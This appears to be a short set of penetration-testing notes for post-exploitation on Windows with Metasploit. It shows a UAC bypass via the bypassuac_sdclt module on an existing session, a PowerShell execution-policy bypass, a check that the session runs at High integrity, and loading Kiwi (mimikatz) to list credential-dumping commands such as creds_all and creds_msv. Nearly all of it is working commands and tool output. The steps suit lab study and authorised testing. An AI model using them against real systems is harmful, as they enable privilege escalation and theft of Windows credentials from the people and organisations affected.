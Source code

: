 ```
msf6 exploit(multi/handler) > search UAC
```

Effective UAC bypass on modern systems _exploit/windows/local/bypassuac_sdclt_

Select this mod

```
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
```

Disp opts

```hlt:6
Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION                        yes       The session to run this module on
```

Can set session number to currently active session

```
msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 9
```

Set LHOST and execute. 

New meterpreter session created

Spawn shell
```
meterpreter > shell
```

EP Bypass
```
C:\Windows\system32> powershell -ep bypass
```

Check integrity of this session (it's HIGH = success)
```hlt:5
PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager
PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
High
```

#### Loading Kiwi (mimikatz)
Need to have NT/AUTHORITY SYSYEM shell.

```
meterpreter > load kiwi
```

Use help menu to list commands 
```hlt:11
meterpreter > help
...
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
```